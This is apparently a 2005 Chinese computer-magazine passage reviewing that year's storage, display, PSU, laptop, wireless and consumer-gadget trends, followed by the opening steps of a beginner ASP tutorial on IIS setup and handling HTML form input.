但是,在您享受大容量储存带来的便利之前,请别忘了检查您的数码设备能否支持大容量储存卡。据笔者观察,目前能上1GB卡的MP4和智能手机还不多,很多产品对储存卡的支持仍停留在512MB上。

同时,当储存卡的容量突破1GB后,大多数储存卡便只支持FAT32格式,但目前能支持该格式的数码设备简直是凤毛麟角（目前的数码相机仍只支持FAT格式）。

当储存卡的容量变大后,人们又对储存卡的写入速度提出了要求,于是各种高速卡应运而生。但是,当很多人把高速卡装上数码设备后,却发现读写速度并不像广告中写得这么美,甚至比原来的低速卡还要慢一些,难道是广告在骗人？不一定！由于目前高速卡缺乏统一的标准,因此兼容性问题十分突出,直接的表现就是写卡速度慢。

因此,您在购买高速卡时,一定要实地测试,以免自己花大钱买回来的高速卡只能当低速卡用！

### NCQ: 硬盘提速一大步

硬盘提速10%～20%,这是什么概念?在以前,这样的提速幅度往往需要1～2代硬盘的努力,并且也会使硬盘的制造成本大幅上升。

不过,现在有一种新技术却可在硬盘制造成本微升的情况下大幅为硬盘提速,这个技术就是来自SATA 1.5规范的NCQ!

NCQ全名“Native Command Queuing”,中文翻译就是“原生指令排序”,从名字上看这个技术肯定和指令优化有关,没错!NCQ就是通过优化硬盘的读、写指令顺序来达到提速的目的,下面这个来自nVIDIA的演示图将能让您轻易明白NCQ的工作方式。

假设硬盘中有四个位于不同位置的数据需要读写。在传统硬盘中（包括IDE、非原生SATA硬盘）,磁头会先读写一个数据,接着磁头移到下一个被读写的数据块所在的位置,然后盘片空转,直到要读写的数据出现在磁头下方……如此循环,直到数据读写完毕,整个过程需要盘片空转几个周期。

在支持NCQ的硬盘中,硬盘的控制芯片会在开始读取数据前计算出数据读写的最优路径,从而确保数据在最短的周期内读取完毕。因此,NCQ不但能优化硬盘性能,而且还能降低硬盘的损耗和发热。

NCQ需南桥（在BIOS中开启ACHI）和硬盘双方的支持,缺一不可,目前支持该技术的芯片组和硬盘有以下几种。





NCQ 可以带来巨大的性能提升

### 支持NCQ的芯片组

| 厂商 | 芯片组 |
| :--- | :--- |
| Intel | ICH6系列和ICH7系列 |
| NVIDIA | nForce4系列 |
| SiS | SiS 965(L) |
| VIA | VT8251 |
| ULi | M1575 |

### 支持NCQ的硬盘

| 品牌 | 型号 |
| :--- | :--- |
| 希捷 | Barracuda 7200.7 NCQ (ST3160827AS、ST3120827AS和ST380817AS)和Barracuda 7200.8 |
| 迈拓 | DiamondMax 10、MaXLine III |
| 日立 | Deskstar 7K80、Deskstar T7K250和Deskstar 7K500 |
| 易拓 | J880S |
| 三星 | HD080HJ、HD120IJ和HD160JJ、Spinpoint P120系列 |

从价格上说，支持NCQ的硬盘和主板还比较贵，但由于硬盘是电脑中最慢的硬件之一，因此该技术能带来十分明显的提速效果，特别是在P2P下载和RAID之类的应用中！

### 超大容量: 迈入准TB时代

随着宽带的普及，现在要存储满一个100GB左右的硬盘已经是很容易的事情了，不少用户都在用多块硬盘组成RAID阵列以获得超大容量或者选择超大容量的硬盘。随着垂直存储技术开始应用于桌面级硬盘，硬盘的单碟容量也又一次提升到新的高度，希捷也推出了容量达到500GB的硬盘，可算迈入准TB时代(1000GB=1TB)。而随着HDTV超大容量高清晰影片、DVD容量级别游戏的流行，这样的大容量硬盘在未来也必然被大家所接受。

### 高速双层DVD刻录机

过去的宠儿: CDRW刻录机和COMBO，随着DVD时代的来临，面临着被DVD刻录机淘汰的局面。目前低价位DVD刻录机约为400元左右，比起300元左右的CDRW刻录机可谓性价比更高。CDRW刻录机无法读取DVD光盘成为其致命伤，COMBO虽能读取，但以百多元的差价来看，性价比不明显，实在没有必要固执地选择它。DVD刻录机成为首选，是因为DVD刻录盘已经明显低于CD刻录盘，而且彻底解决了制式纷争问题，还可以兼容CD刻录盘。

但我们也不应忘记CDRW刻录机和COMBO所作出的贡献，过去的经典产品，有爱国者52X刻龙、微星CR52-M和三星金将军52X康宝等。

技术的进步和制造成本的降低，令近年来光存储设备的价格一路下滑，高速双层DVD刻录机也走入了寻常百姓家。今年4月底，三星推出首款双16x的DVD刻录机，报出499元的新低，然后全线主流DVD刻录机都降到了500元以下的平民价。

双层DVD刻录机，是近年来光存储技术的巨大发展，也是未来存储模式的趋势。双16刻录技术已经随着DVD刻录机的降价大潮，逐步成为市场主流标准。充足的货源，599元的均价，令不少朋友心动不已。

## 显示器: 大屏幕, 靓丽的大屏幕LCD!

热点: 大尺寸是今年的追求，19寸产品必然在今年成为选购的向往。但高速、高对比度、高亮度和大可视角度这几个指标均衡的产品才是未来的方向，而且我们今年也能看到这样的产品出现在市场了。

LCD取代CRT，这是一个口号还是一个梦想？都是！

这个口号，厂商喊了两三年了；这个梦，消费者也做了两三年了。但时至今时今日，LCD和CRT各占半壁江山的格局依然难以突破。除了价格的绝对主导因素之外，LCD确实也还需要苦练内功，在性能上全面赶超CRT。

8ms的响应时间更是让LCD彻底摘掉了“不能打游戏”的帽子。当然，8ms 19英寸LCD的高昂售价只能使大多数消费者望洋兴叹，价格便宜12ms的产品仍是市场主流。另外一个可喜的变化就是，现在越来越多的产品开始用“灰阶响应速度”这个更科学、更真实的速度指标来标识LCD的响应时间。

### 小知识

#### 液晶显示器的灰阶响应速度

今年LCD市场的另外一个热点就是“GTG”(Gray to Gray，灰阶到灰阶)。在很多LCD的广告中，最显眼的广告词莫过于“响应时间”，这里的响应时间指的是“全黑→全白”和“全白→全黑”整个过程的总时间(也叫“整体响应时间”，某些LCD厂商也会拿“全黑→全白”或“全白→全黑”的时间打广告，欺骗消费者)，但在实际应用中出现这两种情况的机会其实非常少。

所谓GTG其实就是指LCD从一个灰阶到另一个灰阶的耗时，因此该指标比单纯的“响应时间”更实用，而一些标称“8ms”响应时间的LCD的GTG时间可能会高达20ms，这也是为什么某些LCD的响应时间上去了，但实际应用中的“拖尾”并未得到明显改善的根本原因。

去年各大LCD厂商火拼的是15、17英寸LCD市场，如今19英寸LCD又成了主战场。19英寸与15英寸相比，面积的数字增加绝对可以导致应用模式质的变化——我们可以在同一时刻在桌面上安排更多的窗口，同时处理数个事务。这个变化不仅适合于希望提高效率的办公用户，也迎合了家庭用户越来越多花样翻新的多种需求。

更为重要的是，配合大屏幕带来的多窗口并列处理好处，必然让未来多核心CPU技术的优势发挥到极限！相信随着LCD面板的不断降价和相关显示器厂商的不断跟进，19英寸LCD的价格将会越来越低，AOC、NESO、美齐等二线厂商频频用低价冲击市场，明基、三星等一线厂商也积极准备，17英寸LCD成为中端市场新霸主初现端倪。

不过，由于大屏幕LCD的推荐分辨率通常是1280×1024，因此它在带来强大的视觉震撼的同时，也会加重显卡的负担。同时，近距离和长时间使用大屏幕显示器对眼睛带来的伤害也不可忽视。

相对于19英寸LCD的“高歌猛进”，目前主流的17英寸LCD则显得有些平静，但同样是新品不断，而且价格也是越来越低(甚至出现价格低至1799元的产品)。不过，伴随着LCD的降价，选择一款“价格便宜量又足”的LCD成了让人头疼的问题。各种五花八门的“新技术”实在让人眼花缭乱。

经过几年的磨砺，屏幕尺寸、亮度、响应时间这些指标，LCD基本上都可以站直腰板说话了。但屏幕的色彩却依然羞于见人，所以我们看到的宣传中强调得最多的就是响应时间和尺寸，而对比度这个指标就比较弱化了。

我们都知道，液晶电视的色彩效果还是不错的，但一旦用液晶显示器来看视频，效果始终只能称得上差强人意。为什么？因为人家液晶电视基本上都能达到1000:1以上的对比度！而液晶显示器能有个6、700就值得大书特书了。幸好，今年这个势态还是向好的方向发展了。

以三星193P+为代表的一批“三高”——高对比度(高达1500:1)、高可视角度和高速LCD已悄悄地出现在了市场。虽然价格高昂，但相信没有人能怀疑和抵挡其强大的视觉震撼。

## 机箱电源: 让我们都更凉快些

热点点评: 今年，面对疯狂提速的CPU和显卡，机箱和电源也开始发生一些看不见的质变。厂商和消费者的关注点不再仅仅是大小和功率，如何帮助电脑宣泄过度的“热情”，将是机箱电源的重点课题。

### 大功率电源的普及

如果说各电源厂商在2004年对大功率电源宣传属于“启蒙运动”，那么在2005年我们便看到了真实的需求。随着P4E、赛扬D超频和SLi等“电老虎”的出现，大功率电源的需求呈爆炸性增长。

因为，当电源的功率不足时，高负荷的工作会让电源的输出部分升压，从而烧毁主板，同时电压不稳也会对硬盘等部件造成致命伤害！

令人遗憾的是，仍有少数电源厂商热衷于“浮夸”，他们将一些原本功率不足的电源标称成大功率电源，坑害消费者，所以在大功率电源成为趋势的情况下，您更要擦亮自己的眼睛。还是那句老话，一分钱一分货，谨慎选购过于便宜的大功率电源！

当然，随着电源功率的不断增大，电源本身的发热量也变得十分可观，以往“和风细雨”似的散热已经无法满足电源的散热需求，于是金河田的“直吹”、航嘉的“大口径风扇”和“自动调速”以及世纪之星专利的“直吹技术”等帮助系统或电源本身散热的技术也如雨后春笋般冒出。

### 38度机箱

眼看夏天快到了，机箱内的温度已是水涨船高。面对发热量越来越大的硬件，传统的散热系统已经无法满足需求，于是38度机箱标准应运而生。

所谓38度机箱就是指可以将CPU散热器上方2cm处温度控制在38℃的机箱，但这种机箱其实是指符合Intel的CAG1.1和TAG1.1规范的机箱，该规范不但对机箱散热提出了新要求，而且对机箱的设计也做出了严格的规范。

不过，CAG1.1和TAG1.1终究只是一个规范，它不具备任何强制性，机箱厂商可以选择全部遵守该规范，也可以选择部分遵守，因此这为某些机箱厂商的“偷梁换柱”留下了漏洞，但可以肯定的是，通过CAG1.1和TAG1.1认证的机箱肯定是设计优秀的机箱。



## 笔记本: 你离我越来越近了

热点: 6000元～9000元左右的产品配置越来越合理，成为市场的主流，让我们看到了笔记本电脑普及的基础，况且还有3999元甚至2999元的炒作在不断加油打气。另外，在高端消费市场上，笔记本电脑的配置越来越倾向于注重娱乐性能。

### 低价格的盛宴

今年4月，新蓝等厂商发布了价格只有3999元的笔记本电脑，这标志着笔记本电脑的价格又创下了新低。随后，其他不甘示弱的笔记本电脑厂商纷纷发布了自己的低价位产品，原本的笔记本电脑价格体系又再次崩溃了。

值得一提的是，在这次降价大潮中，国外品牌不再冷眼旁观，而是开始与国内厂商贴身肉搏，先是HP发布了价格只有8999元的主流配置笔记本电脑(NX6120，Celeron-M 360，256MB DDR2内存，40GB硬盘、DVD光驱、15英寸LCD和Intel GMA900显卡)，接着DELL也开始限量供应价格只有6699元，但搭载910GML芯片组的产品(Inspiron 2200n)，就连东芝和IBM这样一向“高贵”的厂商也发布了售价在8000元以下的笔记本电脑，而东芝最近更是在其跨入笔记本电脑市场20周年之际，发布了一款6999元并预装正版WindowsXP Home Edition的主流配置产品(Satellite L10，Celeron-M 360，40GB硬盘、256MB内存和14.1英寸的LCD)，这无疑是一枚投向市场的重磅炸弹。

现在，联想等厂商又瞄准了学生笔记本电脑市场，他们在原本降价的基础上，又给予在校大学生大幅度的优惠……笔者也曾用过这些低价的笔记本电脑，发现除了外形显得较为笨重外，做工上并没有什么缩水，某些产品甚至还有不错的电池续航能力，可以说这次降价应该是LCD价格崩盘和上游厂家让利的结果。

其实，笔记本电脑应该是一种非常个人化的产品，购买时您需要结合自己的需求。

的需求才能做出正确的选择，不要片面追求豪华配置，因为这样的配置往往会带来高耗电、高重量和高价，够用就好，而目前这些低价位除了内存较小外，其他配置基本都能满足日常办公和娱乐的需求。至于不少人喜爱的小屏幕笔记本电脑，由于受液晶板切割（在笔记本电脑方面，小面积的LCD面板通常比较贵）和小型主板制造难度较高等因素的影响，目前制造成本很难大幅降低，因此现在的价格体系可能还要维持很长的一段时间。

## 娱乐功能成趋势

目前的笔记本电脑还有一个趋势：游戏化。以前提起在笔记本电脑上打游戏，大家都会摇头，因为其显卡性能太弱。但随着5700Go、6200Go和X600 Mobility等强势产品的发布，笔记本电脑上玩DOOM3等3D游戏将不再是天方夜谭，而且这些装配强劲显卡的笔记本电脑都不算贵，大多在万元以下，这让笔记本电脑打游戏变得看得见摸得着！同时MXM模块的问世也使得为笔记本电脑升级显卡成为了可能。当然，由于目前的笔记本电脑仍然采用触控板+超薄键盘的操控方式，因此广大玩家追求的“手感”仍是一大问题。

除此以外，宽屏也是今年笔记本电脑市场的热点，不少笔记本电脑厂商都针对娱乐级笔记本电脑市场发布了自己的宽屏产品。不过，宽屏产品在带来强大的视觉震撼的同时，也带来了额外的重量和一些兼容性问题，而它们真是目前笔记本电脑的软肋，因此笔者建议您在购买宽屏笔记本电脑前还是三思为好。目前大屏幕的宽屏笔记本电脑仍属于国外品牌的天下，如HP DV1002AP、戴尔Latitude D810M和东芝M30等，而比较适合东方人使用的小屏幕宽屏笔记本则被国产品牌把持着，如海尔最近推出12英寸宽屏产品的W10，采用了Celeron M 360，并具备40GB硬盘、130万像素摄像头、COMBO光驱和512MB内存，但价格却只有7999元。

## AMD 的丰收年

对于AMD来说，今年的笔记本电脑市场是其满载而归的一年。随着Turion 64的发布，笔记本电脑开始进入64位计算时代，同时AMD也借助该CPU抢占了不少原本属于迅驰的市场份额。目前市场上的Turion 64笔记本电脑还不算多，只有微星、Acer和神舟在卖（其中Acer的产品更是搭载了强大的显卡），但从AMD的资料来看，已经有很多厂商发布了基于Turion 64的产品，看来基于Turion 64的笔记本电脑的大量上市只是时间问题。

## 无线生活从今天开始

热点:从11M到22M，从54M到108M，无线传输的速度是要超过有线不成？从无线连接到无线游戏、从无线视频到无线家电，无线是要无线我们全部的生活吗？
几年前，无线上网还只是在电影中看到的令人向往的高科技。现在，无线上网已经正式走进我们的日常生活，在公交车或者地铁里有时就能看到有人用笔记本电脑上网聊QQ、看电影了。2003年1月9日，英特尔正式宣布推出迅驰移动计算技术，它带给我们笔记本电脑上基于全新移动处理器微架构、无线网络连接功能、更长的电池使用时间、更轻薄外形和增强的移动性能。不过，在这些众多的新功能当中，无线网络功能很多时候可以算是迅驰技术的代名词，正是它将无线网络正式引入我们的日常生活并且逐渐普及。

当前，无线网络可谓是百家争鸣。标准多，技术多，厂家多，产品多，让你在挑选的时候眼花缭乱。IEEE 802.11a、802.11b、蓝牙、WAPI等都是无线网络标准，到底什么网络用什么标准恐怕很多时候自己都分不清。支持无线网络的产品种类也多，手机、PDA、笔记本电脑、鼠标键盘、摄像头，可以说只要是电脑相关外设及电子产品，基本上都有其相应的无线产品，就看你怎么选了。联想就比较会把握市场，适时地推出“悦灵通”，通过它你的电脑可以与家里的电视无线连接，在电视上观看电脑上播放的电影，看来以后用电脑也能轻松无线控制家里的电灯、冰箱和微波炉了。目前就无线网卡来说，市场上主要分为三大类：1. WLAN网卡；2.GPRS网卡；3.CDMA网卡。WLAN主要用于家庭和办公组建无线局域网。移动的GPRS如果没有现在的小区热点支持宽带上网，在速度上是拼不过CDMA的。联通的CDMA可以说是比较实际地让我们体验到无线上网的乐趣。不过综合而言，如果你需要随时随地移动上网，最普及和最适合的方式还是GPRS。

在我们享受无线上网的自由和乐趣时，另一个问题浮出水面，那就是无线上网的安全问题，所以在你无线上网的同时要多小心“隔墙有耳”呀。庆幸的是，无线安全问题已经有完备的解决方案，我们只需要在使用时多注意是否采用了VPN等安全措施即可。

纵观无线网络，新品辈出，技术飞跃，它必将能像宽带网络那样普及，技术上也将更加先进和多样，可以这么形容无线网络：“还有什么不能无线？”。

## 你知道吗？

- WLAN(Wireless Local-area Network,无线局域网) 是用无线的方式提供传统有线局域网的所有功能。
- GPRS(General Packet Radio Service,通用分组无线服务)是利用“包交换”(Packet-Switched)的概念所发展出的一套无线传输方式。目前GPRS上网的接入服务由中国移动提供，GPRS的速度大约在40K~75K，比普通56K调制解调器略快一点。
- CDMA(Code Division Multiple Access,码分多址)接入服务由中国联通提供，平均速度约80K左右，最高可达150K左右，比GPRS快一倍。

## 数码外设：全民数码化

## 数码相机：小巧、大屏幕和高像素的天下

随着技术的发展，数码相机市场上400万、500万像素的产品已经逐渐普及开，这一档次的产品，形成了当前的市场主流。一直以来，高像素代表了高端消费级数码相机竞争的主导，每一款机的像素提升都不可避免地要掀起一场新的升级比赛。而且，围绕像素的市场战争，也确实成就了当今数码影像产业的辉煌。原先看似贵族的800万像素相机，随着新机型的不断推出，开始走进大众消费市场，并将成为来年的主流产品。
自从索尼首次推出800万像素的CCD元件以来，一场新的“军备竞赛”便已悄然展开。去年，800万像素还只应用在索尼F828、美能达A2和尼康8900等准专业旗舰级产品上，被用来炫耀各厂商的“深厚功力”。而今，它却已经快速被消费类小型机等消化吸收。
不过，像素虽重要，却并非市场的惟一喜爱，但配合小型化，造型讨巧的袖珍机、卡片机，才成就市场的多彩。
索尼T系列可以说是市场上最受欢迎的大屏卡片数码相机系列了，目前最新的产品T7，那突破极限的纤薄之身，让人不禁感到一种震撼—最薄处仅为9.8毫米。最厚的地方也只有1.48厘米，机身重量约115克，是全球最轻薄的DC之一。同时，它还有一块2.5英寸、23.5万像素TFT液晶屏！这个硕大靓丽的液晶屏几乎占据了整个机背，无论用它做拍摄时的取景器，还是浏览回放照片和视频时的快感，都对喜好酷元素的年轻人的腰包拥有绝对的杀伤力！
而理光则凭着Caplio GX8，在高性能机型上上演了一场精彩的瘦身运动！它使用1.8英寸的小LCD，令机背有比较大的空间，按键和LCD各占机背的二分一空间，整体感觉简洁，而且和手柄保持一定距离，拍摄时不至于误按按键使拍摄受影响。GX8拥有高达824万有效像素的CCD、28mm大广角、F2.5超大光圈，更重要的是，GX8可在大约1.3秒内完成开机，快门释放时滞也仅0.1秒，超高速反应令人印象深刻。就是这样一款绝对高指标的准专业级机型，其机身却小得来一只手就能完全掌握，即使是一只女孩子的手！

小巧和大屏幕，不光是消费级机型的专利，甚至专业的DSLR也经不住时尚的诱惑。今年5月6日，佳能的最新单反数码相机350D被授予DIWA(数码影像网站联合组织)金奖。这一款一上市就被某些媒体誉为“平价单反王”的DSLR，正是凭借着令人瞠目的小巧设计和真正专业的性能，获得了这一殊荣。
科技的日新月异，移动通讯、静态影像和动态视频这三个有着错综复杂关系的行业，相互间的界限也日趋模糊。数码相机，在炒作过了主流功能，甚至玩腻了换芯换壳种种招数后，众多厂商又开始把“魔爪”伸向了短片拍摄功能。在消费者需求下，从3分钟无声短片，到3分钟有声短片，再到无限时拍摄，数码相机该项功能被已经完全具备了无限时拍摄中可变焦的短片功能，除了外形与传统卧式DV不同外，在功能上已经越来越接近了，甚至使用起来比DV更让人省心。虽说不上是完美，但至少是一个较好的折中，满足了寻求一物多用的部分消费者的需求。在技术融合大环境下的今天，手机也出现DC功能，未来会不会出现低端由手机占据，中高端才是数码相机的市场，让我们拭目以待吧！

## MP3 播放器：朝影视听三栖进发

iPod Shuffle无疑是今年MP3播放器市场的亮点，这个貌不惊人的小东西一推出便像它的前辈iPod一样热卖，数次断货，苹果电脑的股价也因此一升再升。当然，iPod Shuffle的热卖也引来了其他的MP3播放器厂商的阵阵郁闷：为什么自己功能丰富、价格便宜的产品却打不过这款没录音、没收音，甚至连LCD，但却价格昂贵的产品呢？需知iPod系列已经不再是一款简单的产品，它的热卖和苹果电脑在广大消费者心目中“艺术家”的形象密不可分—既然买艺术品似的Mac不成，买iPod总该可以吧？于是iPod系列的热卖也就不足为奇了。可以这么说，iPod系列已经成为了时尚潮流文化的代言词，而当某个产品成为某种文化的代言词时，那么其地位将很难被撼动！同时，iPod的配套支持使得它已经变成了一个产业，这更是单纯作为产品的其他品牌MP3所不能相比的。

当然，iPod系列的热卖也让国内MP3播放器厂商首次认识到了工业设计的重要性，于是虽然“工模”问题仍未得到改善，但我们也欣喜地看到了一些原创设计的优秀产品。除了外形牌之外，今年各大厂商也开始大打音质牌，一时间各大MP3播放器的广告纷纷以音质作为卖点，甚至出现了“芯片论”。需注意的是，由于MP3本身属于有损压缩，本身的效果就不会太好，再加上很多消费者买回MP3播放器后并不自己压缩CD，而是直接上网下载一些压得不太好的音频文件，这使得在MP3上追求所谓的“音质”没有任何意义。退一步说，MP3播放器大多在移动环境中使用（应该没人在家还用这个吧），在嘈杂的街道上，您还能听出差别吗？因此，片面地在MP3播放器上追求“音质”，只会让你多花钱而已，倒不如用这些钱购买一款具有更大闪存的产品。

今年的MP3播放器市场同样是“彩色”的一年，各种彩屏产品充斥着市场，甚至放电影也不再属于MP3的专利，一些支持视频播放的MP4播放器也纷纷上市（但效果都不太好）。不过，电池却成了这些产品走向主流的最大障碍。

## 外设：更精、更细、更强

## 打印机

今年，EPSON对打印机市场投下了一枚重磅炸弹，发布了针对低端市场的ME1，这款498元的打印机支持优化2880dpi分辨率和6微微升墨水，并且针对家庭用户增加了“趣味打印”功能。从技术参数来看，ME1并没有什么出彩之处，但关键在于其墨水的价格十分低廉，这连一些兼容墨水都只能望其项背，同时也结束了500元以下打印机的原装墨水价格普遍高于150元的历史。可以这么说，ME1为家用打印机的大规模普及打下了坚实的基石。

另外，EPSON、HP 和 Canon 都在今年发布了针对高端市场的8色墨盒打印机。的确，在经历了几年的“分辨率大战”之后，目前的打印头技术似乎像芯片制造技术一样遇到了瓶颈（现在的打印头实际上都是用芯片制造技术制造的），况且目前高端打印机的分辨率已经远超人眼的识别率，单纯地提高分辨率已经很难再提起消费者的购买欲。于是，各大打印机厂商不得不重新寻找新的卖点，立竿见影的8色墨水技术成为了最佳的选择。我们知道所有颜色都可用三原色调出来，但打印机毕竟不能像电视机那样能轻易控制调色比例，因此对于打印机来说，墨水颜色的多寡直接决定了打印效果是否能生动自然，而且这种效果能比“XXXX分辨率”带来的效果更明显，笔者在截稿时又发现了9色墨盒的打印机……当然，目前8色墨盒打印机动辄5XXX元的价格注定了它只能是少数人的玩具。

今年同样是激光彩色打印机崛起的一年。在经历了多年的发展之后，目前的激光彩色打印机已经相当成熟，其彩色打印功能已不再是“摆设”，同时又具有激光打印的低成本优势。不过，目前激光彩色打印机的体积仍然很“巨”，因此短时间内很难受到家庭用户的青睐。

## 音箱

2005年的音箱市场的争斗集中表现在两个市场里——一是在高端的准Hi-Fi市场，竞争显得越来越白热化，惠威在沉寂两年后又一次发布高端新品和漫步者携S2000/S2000V两个重磅炸弹进入高端市场不亚于给其他竞争者带来致命的打击，而它们新产品的设计更使得高端产品的平均水准被抬高到了一个新的水平。

而在市场的另一端，三诺重入多媒体音箱市场的动作，使得平静已久的100元～300元主流市场再起波澜。三诺先后推出的N－20G/N－30G等产品都以相对很低的价格提供了相当不凡的音质表现，从而带来了主流市场又一轮洗牌，漫步者、世代等老牌厂商相继推出这个价位上的新品。而麦博“梵高”系列的声势大造更为这个市场制定了新的市场标准。

从产品的层面上看，2005年最为集中推出的产品，也是以前少有人关注的一款笔记本电脑。

## 10步之内学会ASP

10步代表着你掌握 ASP 技术的阶段，每一步虽然都很小，但都会让你有所提高。不管你有没有编程技术，有没有学习网页开发的兴趣，信手翻来，10页不到的内容就能让你对ASP有比较到位的了解。而且很多朋友喜欢下载网上的网页代码直接制作网站，通过本文，相信你也可以尝试对ASP部分的代码进行调试和按需修改，这将是很大的进步。下面快快跟我们迈出通向成功的第一步吧！

### 一、成功了解服务器环境配置

在互联网刚刚兴起的时候，网页只是由静态的图片和文字组合而成，我们可以在这样的静态网页上阅读新闻、查看图片，但无法利用它来进行互动应用，比如说用它来发Email。静态网页其实是由单纯的HTML代码组成，而HTML仅仅表示了网页上文字图片等内容的显示方式，从根本上说它和我们平时用的记事本文档没有什么区别（文件只记录文字符号和格式信息）。静态网页技术已经远远不能满足于互联网应用，要进行电子商务、在线论坛、问卷调查、数据库管理等应用必须借助于一种类似于应用软件的网络应用程序，于是动态网页技术随之产生。

使用动态网页技术CGI（Common Gateway Interface，通用网关接口），服务器可以读取并显示在客户端无法读取的格式（如数据库），可以说是客户端和服务器端的桥梁。使用CGI开发互联网应用时要求程序员不仅要掌握HTML语言，而且还要精通具体的某个编程语言。CGI脚本程序是符合CGI标准接口的Script（脚本程序），通常是由Perl或C语言编写而成。有一点要注意，CGI和CGI脚本程序是不同的两个概念：CGI是一种接口技术，而CGI脚本程序只是程序语言。

ASP（Active Server Page，动态服务器网页）是微软公司开发的代替CGI脚本程序的一种技术。相对于CGI脚本程序，编写ASP程序更为容易和高效。ASP动态网页可以与数据库和其他程序进行交互，它是一种包含了使用VBScript或JavaScript脚本程序代码的网页。ASP程序只能在服务器端执行，当浏览器向服务器请求打开ASP程序时，服务器会运行相应程序并将结果转换成HTML代码然后再发送给浏览器，这样我们在浏览器中看到的就是动态程序生成的静态网页。有关静态网页和动态网页的更详细说明，你可以参考《电脑爱好者》2005年第3期上的特别话题《网站背后的故事》。

使用ASP技术可以完成几乎所有现在可以遇到的互联网应用，你可以用ASP程序编写论坛、Email程序、聊天室、留言板、访问统计计数器、网上购物程序等。ASP是至今最简单的动态网页技术之一，加之微软公司的大力推广，也是被最广泛采用的动态网页技术之一。

由于ASP可以使用VBScript、JavaScript等多种脚本语言来编写，所以在学习的时候可以了解多种脚本而精通其中一种。VBScript是ASP的默认脚本语言，为了方便大家学习，我们在文章中采用VBScript来编写示例程序。

学习网络开发语言的入门难点是服务器环境的配置，而这也是非常重要的，能配置出环境可以说入门了大半。为什么需要配置服务器？我们的ASP页面（.asp后缀）需要服务器解释后返回客户端HTML代码（静态代码），而这也就是为什么称为浏览器/服务器模型。在开发中我们的服务器和浏览器可以都是自己的机器，ASP的服务器环境可以使用微软自己的IIS（Internet信息服务）来做，因此非常简单。下面说一下具体的步骤，这里以Windows 2000中文专业版为例，使用Window XP用户在操作方面基本没有不同之处，完全可以参考。



- 第一步：进入“控制面板”选择“添加删除程序”。
- 第二步：在“添加删除 Windows 组件”中找到“Internet 信息服务（IIS）”并勾选，点击“下一步”开始安装IIS，在这个过程中可能需要插入Windows安装盘。
- 第三步：安装完成后，“控制面板→管理工具→Internet 信息服务”这里就是IIS的管理程序。
- 第四步：双击“Internet 信息服务”打开IIS管理器，选择“默认 Web 站点（或默认网站）”，点击鼠标右键，选择“属性”。
- 第五步：选择“Web 站点页”，可以在这里修改站点名字，如果不修改就是刚才看到的默认 Web 服务站点。

小提示 文件扩展名需要是ASP，如果错误地保存为test.asp。

### 二、成功掌握基本的交互操作

所谓基本的交互操作就是服务器端得到客户端提交的信息，服务器端给客户端输出信息。交互的过程就是服务器端得到客户端的请求，接受客户端提交的信息，处理以后给客户端反馈信息的一个过程。说到交互操作，就不得不说到表单，表单是一个容器，其中的各类控件的信息将会提交给服务器。如果大家对HTML不熟悉可以安装一个Dreamweaver，点击工具条上的按钮来生成HTML元素，然后可以切换到代码视图对照着学习什么样的HTML代码有什么样的表现形式，这非常有利于HTML的学习。

**1. 从最基本的表单开始**

表单仅仅是一个容器，Dreamweaver中打开表单工具条了以后点击表单按钮，然后会出现一块红色虚线区域，这部分就是表单，查看HTML发现生成了类似`<form name="form1" method="post" action=""></form>`的代码，其中的method就是提交的方法，有两种：post和get。post这个方法传送的变量不会在浏览器的地址栏里面显示，可以大批量传送数据，而get则会在浏览器地址栏里面显示，我们看到的网页中xxx.asp?id=123，这种都是get方式的提交，也就是把信息附加在浏览器的URL中，不需要表单，普通的链接也可以达到这样的效果，这种方式非常简单但是暴露了提交的信息，而且还有长度限制，一般我们使用post方式。Action填写表单发送的地址，这个地址去处理我们发送的表单信息，比如我们reg.asp实现插入注册信息到数据库，那么我们注册页面就应该这么写表单：`<form name="form1" method="post" action="reg.asp">`这里的reg.asp应该和注册页面是同级别的目录，上级目录可以是action="../reg.asp"，当然下级目录应该这么写action="目录名字/reg.asp"。

**小提示**
初学者对于URL这个问题可能还会犯很多错误，首先地址不能是类似file:///C/|/这样的形式，对于你的机器可能有效，但别人的机器上的C盘没有这些文件，一定要把这些文件Copy到Web目录写成相对路径；其次如果当前url地址为http://www.mysite.com/bbs/而如果下面还有一个upload的文件夹，对于bbs目录，upload下面图片的地址应该是upload/xxx.jpg而不是/upload/xxx.jpg，多了一个/URL就会是http://www.mysite.com/upload/xxx.jpg。

**2. 加入文本框等控件**

文本框等控件用来给客户端选择或者填写一些信息，提交给客户端，需要注意的是服务器端根据客户端控件的name（控件名）来获取value（值）中的信息。现在举一个例子：如果文本框的名字是name的话，用来传递网上用户登记的名字，在表单域里面，传送到reg.asp，用POST方法，那么在reg.asp里面这样得到变量`<%name=request.form("name")%>`如果要显示变量再加一句，response.write name，这样就形成了一个从客户端到浏览器再回到客户端的过程。如果方法用的是get的话，那么就改为name=request.querystring("name")实际上两者可以统一为name=request("name")。

按钮无非两种，一种是提交表单的按钮，一种是重新输入的按钮。单选按钮，一个按钮有一个值。在列表里面同样，添加列表选项和值。按钮的value就是按钮上显示的文字，type=submit的按钮是用来提交表单，操作的部分等于form1.submit()，type=reset的按钮用来清空所有表单元素的内容，type=button的按钮可以执行自定义的一些JavaScript操作，比如`<input type="button" name="test" value="按钮" onclick="alert('hello')">`，点击按钮出现一个提示信息。

```
下面举个最简单的例子：
<form name="form1" method="post" action="reg.asp">
姓名：<input type="text" name="name"> //创建一个文本框，名字叫name
<br>
密码：<input type="password" name="psw"> //文本框，用来输入密码，名字叫psw
<br>
性别：<input type="radio" name="sex" value="男"> //单选，名字叫sex，数值是“男”
男 <input type="radio" name="sex" value="女"> //单选，名字叫sex，数值是“女”
女 <br>
<br>
城市：<select name="city"><option value="上海" selected>上海</option> //下拉框，用来选择城市
<option value="北京">北京</option>
</select>
<br>
<input type="submit" name="submit" value="提交"> //提交按钮
<input type="reset" name="reset" value="重置">
</form>
```

**3. 表单的服务器端处理**

网页代码部分完成之后基本的操作有以下几个：
（1）获取客户端提交的信息
（2）向客户端输出信息
（3）重定向客户端地址
实现方法如下：

通过Request.Form("xxx")来获取post方式表单信息，Request.QueryString("xxx")或者get方式表单信息，当然也可以统一使用Request("xxx")。（这里的xxx一定要和表单中控件的name一致）通过Response.Write("需要输出的信息")来输出信息。通过Response.Redirect("页面地址")进行地址转向。上面例子给出的表单我们就可以这么做：

```
<%
dim name,psw,sex,city
name=request.form("name")
psw=request.form("psw")
sex=request.form("sex")
city=request.form("city")
response.write name
response.write psw
response.write sex
response.write city
%>
```

说到这里就不得不说两个要点：
